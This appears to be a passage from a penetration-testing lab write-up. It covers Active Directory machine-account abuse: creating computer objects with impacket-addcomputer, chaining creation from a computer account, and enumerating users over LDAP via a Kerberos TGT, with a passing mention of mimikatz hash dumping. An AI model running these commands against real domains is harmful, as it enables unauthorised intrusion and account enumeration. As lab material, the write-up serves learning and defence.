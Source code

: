 Another way would be to dump the hash through mimikatz and use it for further attacks.

Creating a computer object with impacket
```
impacket-addcomputer -computer-name testcomputer01 -computer-password hunter2 -dc-ip 10.0.0.100 heimat.erde/administrator
```

## Creating a computer as computer?
Active directory allows common users to join up to [10 machines](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/default-workstation-numbers-join-domain) to the domain but does this also work with computer accounts?

```
impacket-addcomputer -computer-name testcomputer02 -computer-password hunter2 -dc-ip 10.0.0.100 heimat.erde/testcomputer01$
...
[*] Successfully added machine account testcomputer02$ with password hunter2.
```

## LDAP Requests
Let's see if we can use the computer object for regular enumeration.

_Attacker:_
```
ldapsearch -LLL -x -H ldaps://heimat.erde -D "testcomputer01$@heimat.erde" -w hunter2 -b '' "(objectClass=user)" sAMAccountName userPrincipalName memberOf
```

On the domain server:
```
0xC00001999 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

According to [Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-allow-local-system-to-use-computer-identity-for-ntlm) this happens if a computer object uses NTLM for authentication binding.

What if we get a TGT and try it over Kerberos?


```
$ impacket-getTGT -dc-ip 10.0.0.100 heimat.erde/testcomputer01
$ export KRB5CCNAME=./testcomputer01.ccache
$ ldapsearch -Y GSSAPI -H ldap://heimat.erde -D "testcomputer01" -b 'DC=heimat,DC=erde' 'objectclass=user' SAMAccountName userPrincipalName memberOf 
```
![ldapsearch_kerb](/b/images/ldapsearch_kerb.png)


It's works!

- If you get an error like `KRB_AP_ERR_SKEW(Clock skew too great)` you need to synchronize your time with the KDC `ntpdate 10.0.0.100` or get the time through other means. 
- You'll probably have to install `libsasl2-modules-gssapi-mit` to use GSSAPI
- If you get an error like `Cannot find KDC for realm "{domain}"` make sure your system points to the ADDC for DNS.
